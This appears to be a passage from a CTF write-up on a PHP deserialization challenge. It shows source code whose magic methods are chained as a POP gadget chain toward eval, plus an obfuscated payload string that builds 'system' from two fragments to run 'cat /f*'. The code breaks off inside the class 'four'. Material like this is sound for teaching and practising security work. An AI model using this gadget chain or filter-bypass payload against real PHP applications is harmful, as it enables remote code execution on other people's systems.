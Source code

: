 pop链子

```php
<?php
class NISA{
    public $fun;
    public $txw4ever = "\$a='sy';\$b='stem';(\$a.\$b)('cat /f*');";
    public function __wakeup()
    {
        if($this->fun=="show_me_flag"){
            hint();
        }
    }

    function __call($from,$val){
        $this->fun=$val[0];
    }

    public function __toString()
    {
        echo $this->fun;
        return " ";
    }
    public function __invoke()
    {
        checkcheck($this->txw4ever);
        @eval($this->txw4ever);
    }
}

class TianXiWei{
    public $ext;
    public $x;

    public function __wakeup()
    {
        $this->ext->nisa($this->x); //Ilovetxw类__call()
    }
}

class Ilovetxw{
    public $huang;
    public $su;

    public function __construct(){
        $this->su = new NISA();
    }

    public function __call($fun1,$arg){
        $this->huang->fun=$arg[0]; //four类__set()
    }

    public function __toString(){
        $bb = $this->su;
        return $bb(); //NISA类__invoke()
    }
}

class four
{
    public $a;
    private $fun = 'sixsixsix';

    public function __set($name, $value)
```